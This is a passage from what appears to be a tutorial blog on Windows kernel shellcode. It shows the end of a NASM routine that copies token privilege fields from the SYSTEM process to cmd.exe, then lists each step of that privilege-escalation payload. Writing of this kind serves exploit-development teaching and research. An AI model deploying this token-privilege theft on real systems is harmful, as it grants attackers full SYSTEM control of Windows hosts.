```nasm
	mov r9, qword [r10 + 0x48]			; move the Enabled parameter from _SEP_TOKEN_PRIVILEGES system process substructure to the same at cmd.exe
	mov qword [r8 + 0x48], r9
	mov r9, qword [r10 + 0x50]			; move the EnabledByDefault parameter from _SEP_TOKEN_PRIVILEGES system process substructure to the same at cmd.exe
	mov qword [r8 + 0x50], r9

	ret

end
```
This shellcode does the following:
1. Gets the kernel's `_KTHREAD` structure
2. Gets the `_EPROCESS` from `_KTHREAD`
3. Saves a copy of `_EPROCESS`
4. Stores the thread's PPID (`cmd.exe`, where our exploit is running) in **`r9`**
5. Loops to get `system`’s `_EPROCESS` by comparing PID with 4
6. Gets the `system` `_TOKEN`, clearing the last 4 bits to get the object pointer instead of the fast reference
7. Loops to get `cmd.exe`’s `_EPROCESS` by comparing with **`r9`**
8. Gets `cmd.exe`’s `_TOKEN`, same masking
9. Transfers the three values: `Present`, `Enabled`, and `EnabledByDefault` from `system` to `cmd.exe`
10. Returns

Now as always, we compile with `nasm.exe` and view the disassembly with `ndisasm.exe`

![](imgs/blog/1WindowsKernelShellcode/20250223151220.png)
